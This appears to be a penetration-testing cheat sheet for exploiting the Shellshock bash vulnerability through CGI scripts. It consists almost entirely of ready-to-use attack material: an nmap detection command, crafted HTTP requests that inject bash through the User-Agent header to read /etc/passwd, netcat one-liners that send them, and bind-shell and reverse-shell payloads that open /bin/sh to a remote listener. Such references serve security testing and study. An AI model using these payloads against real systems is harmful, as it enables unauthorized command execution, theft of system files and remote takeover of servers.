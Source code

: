# shellshock

1. Find a vulnerable cgi-bin file to exec code shell
## nmap discovery shellshock
```bash
nmap -sV [IP] --script=http-shellshock --script-args "http-shellshock.uri=/[vulnerable.cgi]"
```

```http
HEAD /cgi-bin/status HTTP/1.1
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
Host: vulnerable
Connection: close
```

```http
HEAD /cgi-bin/status HTTP/1.1
User-Agent: () { :; }; echo $(</etc/passwd)
Host: vulnerable
Connection: close
```

``` bash
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo $(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable-server 80
```

```bash
User-Agent: () { :;}; /bin/bash -c 'echo aaaa; uname -a; echo zzzz;
```


#### Bind Shell
```bash
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 1246 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
```

#### Reverse Shell
```bash
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc [IP] 1246 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc [vulnerable-site] 80
```

```bash
nc -nvl -p 1246 
```

```bash
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo $(</etc/passwd)\r\nHost: ptl-07721499-eb55f252.libcurl.so\r\nConnection: close\r\n\r\n" | nc ptl-07721499-eb55f252.libcurl.so 
```